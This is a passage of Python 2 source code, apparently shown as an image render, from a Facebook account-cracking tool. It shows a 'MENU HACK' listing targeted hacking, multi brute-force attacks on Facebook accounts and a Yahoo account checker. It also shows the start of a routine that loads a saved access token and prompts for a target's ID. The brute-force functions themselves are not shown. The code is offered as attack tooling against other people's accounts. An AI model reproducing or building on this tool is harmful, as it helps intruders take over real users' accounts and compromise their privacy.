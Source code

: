 		print"\033[1;91m[✖] No connection"
		keluar()
    
##### MENU HACK #####
def menu_hack():
	os.system('reset')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\033[1;91m[!] Token not found"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	os.system('reset')
	print logo
	print "\033[1;93m║--\033[1;93m> \033[1;93m1.\033[1;94m Mini Hack Facebook(\033[1;92mTarget\033[1;97m)"
	print "\033[1;93m║--\033[1;93m> \033[1;93m2.\033[1;94m Multi Bruteforce Facebook"
	print "\033[1;93m║--\033[1;93m> \033[1;93m3.\033[1;94m Super Multi Bruteforce Facebook"
	print "\033[1;93m║--\033[1;93m> \033[1;93m4.\033[1;94m BruteForce(\033[1;92mTarget\033[1;97m)"
	print "\033[1;93m║--\033[1;93m> \033[1;93m5.\033[1;94m Yahoo Checker"
	print "\033[1;93m║--\033[1;93m> \033[1;93m0.\033[1;94m Back"
	print "║"
	hack_pilih()
#----pilih
def hack_pilih():
	hack = raw_input("\033[1;95m╚═\033[1;95mD \033[1;95m")
	if hack=="":
		print "\033[1;91m[!] Wrong input"
		hack_pilih()
	elif hack =="1":
		mini()
	elif hack =="2":
		crack()
		hasil()
	elif hack =="3":
		super()
	elif hack =="4":
		brute()
	elif hack =="5":
		menu_yahoo()
	elif hack =="0":
		menu()
	else:
		print "\033[1;91m[!] Wrong input"
		hack_pilih()
		
##### MINI HF #####
def mini():
	os.system('reset')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\033[1;91m[!] Token not found"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	os.system('reset')
	print logo
	print "\033[1;97m[\033[1;91mINFO\033[1;97m] \033[1;91mThe target account must be friends\n       with your account first!"
	print 42*"\033[1;97m═"
	try:
		id = raw_input("\033[1;91m[+] \033[1;92mTarget ID \033[1;91m:\033[1;97m ")
